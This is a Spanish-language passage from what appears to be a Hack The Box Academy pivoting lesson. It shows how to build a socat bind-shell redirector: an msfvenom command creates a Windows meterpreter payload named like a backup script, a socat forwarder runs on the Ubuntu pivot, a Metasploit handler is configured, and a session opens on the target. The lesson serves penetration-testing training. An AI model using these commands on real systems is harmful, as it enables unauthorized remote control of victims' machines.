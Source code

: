 Similar a nuestro redireccionador de reverse shell con `socat`, también podemos crear un redireccionador de bind shell con `socat`. Esto es diferente de las reverse shells que se conectan de vuelta desde el servidor de Windows al servidor de Ubuntu y se redirigen a nuestro host de ataque. En el caso de las bind shells, el servidor de Windows iniciará un listener y se vinculará a un puerto en particular. Podemos crear un payload de bind shell para Windows y ejecutarlo en el host de Windows. Al mismo tiempo, podemos crear un redireccionador `socat` en el servidor de Ubuntu, que escuchará conexiones entrantes desde un Metasploit bind handler y las redirigirá a un payload de bind shell en un objetivo de Windows. La figura a continuación debería explicar el pivot de una manera mucho mejor.

![](https://academy.hackthebox.com/storage/modules/158/55.png)

Podemos crear un bind shell usando `msfvenom` con el siguiente comando.

### Creating the Windows Payload

```r
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```

Podemos iniciar un `socat bind shell` listener, que escucha en el puerto `8080` y reenvía paquetes al servidor de Windows `8443`.

### Starting Socat Bind Shell Listener

```r
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finalmente, podemos iniciar un Metasploit bind handler. Este bind handler puede configurarse para conectarse al listener de `socat` en el puerto 8080 (servidor Ubuntu).

### Configuring & Starting the Bind multi/handler

```r
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

Podemos ver un bind handler conectado a una solicitud de stage pivotada a través de un listener de `socat` al ejecutar el payload en un objetivo de Windows.

### Establishing Meterpreter Session

```r
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```
